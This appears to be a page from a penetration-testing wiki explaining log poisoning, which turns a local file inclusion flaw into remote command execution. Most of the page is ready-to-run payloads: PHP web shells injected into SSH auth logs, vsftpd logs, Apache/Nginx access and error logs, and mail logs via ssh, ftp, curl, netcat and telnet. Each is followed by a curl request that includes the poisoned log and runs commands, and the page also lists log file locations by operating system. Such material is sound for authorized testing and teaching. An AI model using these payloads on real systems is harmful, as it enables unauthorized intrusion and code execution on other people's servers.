 # Logs Poisoning

## Theory

Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log.

## Practice

{% hint style="danger" %}
**If you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "_**quote;**_", **PHP will throw an error** there and **nothing else will be executed**
{% endhint %}

{% hint style="danger" %}
make sure you **write correctly the payload** or PHP will error every time it tries to load the log file and you won't have a second opportunity.
{% endhint %}

<details>

<summary>/var/log/auth.log</summary>

We can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<?php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

</details>

<details>

<summary>/var/log/vsftpd.log</summary>

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and trying to login setting the PHP payload in the username and then access the logs using the LFI.

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<?php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

</details>

<details>

<summary>Apache/Nginx access.log</summary>

When the web application is using an Apache2 or Nginx server, the `access.log` may be accessible using an LFI.

```bash
# Sending the payload in user agent via curl
curl --user-agent "<?php passthru(\$_GET['cmd']); ?>" $URL

# Accessing the log file via LFI
curl $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

You may find the access.log files on the following locations, for more locations you may use one of this [wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI):

```bash
# APACHE LOG FILE
## RHEL/Red Hat/CentOS/Fedora
/var/log/httpd/access_log

## Debian/Ubuntu
/var/log/apache2/access.log
/var/log/apache/access.log
/usr/local/apache2/log/access.log
/usr/local/apache/log/access.log

## FreeBSD
/var/log/httpd-access.log

## Windows
C:\xampp\apache\logs\access.log

# NGINX LOG FILE
## Linux
/var/log/nginx/access.log

## Windows
C:\nginx\logs\access.log
```

</details>

<details>

<summary>Apache/Nginx error.log</summary>

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

As the `/<?php passthru($_GET['cmd']); ?>` page doesn't exist, it will be logged to the error.log

```bash
# Sending the payload via netcat (avoid url encoding)
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

You may find the access.log files on the following locations, for more locations you may use one of this [wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI):

```bash
# APACHE LOG FILE
## RHEL/Red Hat/CentOS/Fedora
/var/log/httpd/error_log

## Debian/Ubuntu
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache2/log/error.log
/usr/local/apache/log/error.log

## FreeBSD
/var/log/httpd-error.log

## Windows
C:\xampp\apache\logs\access.log

# NGINX LOG FILE
## Linux
/var/log/nginx/error.log

## Windows
C:\nginx\logs\error.log
```

</details>

<details>

<summary>Email Logs</summary>

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT*
> HELO $DOMAIN
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl "$URL/?parameter=/var/log/mail.log&cmd=id"
```

Alternatively, s**end a mail** to a internal account (user@localhost) containing your PHP payload

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> HELO localhost
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<www-data@localhost>
> DATA
> subject: RCE
> <?php system($_GET['cmd']); ?>
> .

# Accessing the log file via LFI
curl "$URL/?parameter=/var/spool/mail/www-data&cmd=id"

```

</details>



## References

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce" %}

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning" %}

{% embed url="https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d" %}
